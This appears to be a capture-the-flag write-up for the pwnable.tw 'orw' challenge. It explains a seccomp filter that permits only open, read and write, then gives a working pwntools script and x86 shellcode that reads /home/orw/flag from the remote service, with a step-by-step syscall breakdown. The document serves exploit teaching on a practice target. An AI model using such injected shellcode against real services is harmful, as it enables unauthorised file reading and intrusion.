


# orw

Read the flag from `/home/orw/flag`.

Only open read write `syscall` are allowed to use.

```
nc chall.pwnable.tw 10001
```

[orw](http://ctf.infury.org:8000/files/fbd45ee7f8e047233234f0c370d08d66/orw)

## WP

The title orw means open, read and write.

By disassembling the  executable file we can see the logic of the program.



First it will call a function called `orw_seccomp()`, this function will forbidden most of the `syscall` except open, read and write.

Then the program will read the user input, and then the program will execute the user input.

Since the shell code like opening shell is obviously forbidden by `orw_seccomp()` function, we can use shell codes only including orw operations to read the content of `/home/orw/flag`.

The script is shown below.

```python
from pwn import *
import pwnlib

p = remote('chall.pwnable.tw', 10001)
p.recvuntil(':')

# shellcode = pwnlib.shellcraft.i386.linux.cat('/home/orw/flag')

shellcode = """
xor ecx, ecx;
push ecx;
push 0x67616c66;
push 0x2f77726f;
push 0x2f656d6f;
push 0x682f2f2f;
mov ebx,esp;
xor edx,edx;
mov eax,0x5;
int 0x80;
mov ebx,eax;
mov ecx,esp;
mov edx,0x30;
mov eax,0x3;
int 0x80;
mov eax,0x4;
mov ebx,0x1;
mov edx,0x30;
int 0x80
"""

p.send(asm(shellcode))
print(p.recvall())
```

We can also get the shellcode from `pwnlib` but I can't get the flag through the shellcode from `pwnlib`, so I finally used a shellcode which is searched online.

This shellcode takes effect in three steps:

1. Open `/home/orw/flag`.

   ```assembly
   push 0x67616c66;
   push 0x2f77726f;
   push 0x2f656d6f;
   push 0x682f2f2f;
   mov ebx,esp;
   mov eax,0x5;
   int 0x80;
   ```

   `ebx` stores the name of the file. In this case it stores the start address of the string corresponds to the filename in the memory.

   Assigning `eax` with `5` means when syscall (i.e. `int 0x80`) is executed, the program will open the file specified by `ebx`.

   **After this `syscall` is executed, the opened file's file descriptor (`fd`) will be saved in `eax`.**

2.  Read the content of file into memory.

   ```assembly
   mov ebx,eax;
   mov ecx,esp;
   mov edx,0x30;
   mov eax,0x3;
   int 0x80;
   ```

   Since the file descriptor is stored in `eax` after the file is opened, we first assign `ebx` with the content of `eax`, because `ebx` stores the file descriptor (`fd`) in `read` syscall, which is used to mark the resource of reading (`ebx=0` means reading input from standard input).

   `ecx` stores the start address of the read buffer. In this case it's the address of the space which is originally used to store the filename: it is not necessary now and we use it as the read buffer.

   Assigning `edx` with `0x30` means we will read in `0x30` bytes at most.

   Assigning `eax` with `3` means this is a read syscall.

3. Write it on the screen.

   ```assembly
   mov eax,0x4;
   mov ebx,0x1;
   mov edx,0x30;
   int 0x80
   ```

   Assigning `eax` with `4` means this is a write syscall.

   `ebx` stores the file descriptor of this write syscall, in this case it's `1`, meaning the standard output.

   Assigning `edx` with `0x30` means this write syscall will output `0x30` bytes.

After the shell code is executed, we can finally get the flag.



